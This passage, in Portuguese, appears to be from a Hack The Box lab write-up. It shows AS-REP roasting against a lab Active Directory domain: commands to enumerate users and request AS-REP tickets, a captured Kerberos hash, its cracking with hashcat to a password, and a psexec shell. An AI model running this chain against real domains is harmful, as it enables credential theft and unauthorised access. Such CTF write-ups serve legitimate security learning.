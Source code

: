 Agora, temos a lista de usuários do alvo.

Colocaremos a lista num arquivo e tentaremos o Atttack As-Rep Roasting.

- `cat users`
    
    ```powershell
    sebastien
    lucinda
    svc-alfresco
    andy
    mark
    santi
    ```
    
- `for user in $(cat users); do impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done`
    
    ```powershell
    [*] Getting TGT for sebastien
    [-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
    
    [*] Getting TGT for lucinda
    [-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
    
    [*] Getting TGT for svc-alfresco
    $krb5asrep$23$svc-alfresco@HTB:754aaeb7cf647e5365424893ee7e7345$1f45e994ceeda5dba738917f2d1f1103eadc8aab035b7177f5ebcaa4ace7ab4311966d7a2bebe181f5dc0e51fd24286b24cb2493a1f02c6fc5cfbd050627089ea8517c1cd3256b7b94d42acc4e54a98b4e336dc175f356a34394b843e82701e822f748a8599fc6d641a5cfa3ebdaeb5f04ace7a97a31b2993c0628c766fe7f2e7358fbeeee130b7c55579f6bb9006949a9f4db273fd05f845ab359b7799624297b4be55b4eab01a5d350f012fc49829e01db5b64fad03409ab7f34cf8c19f538ea9868751d2dc3739fa0d4b2b0d991b0c145bde8f925bbdbec205fc7a626b0b8
    
    [*] Getting TGT for andy
    [-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
    
    [*] Getting TGT for mark
    [-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
    
    [*] Getting TGT for santi
    [-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
    ```
    

### Quebrando o Hash

`hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt --force`

Senha do usuário **svc-alfresco** encontrada: **s3rvice**



## **Pegando Shell**

### Psexec

`impacket-psexec htb.local/svc-alfresco:s3rvice@10.10.10.161`
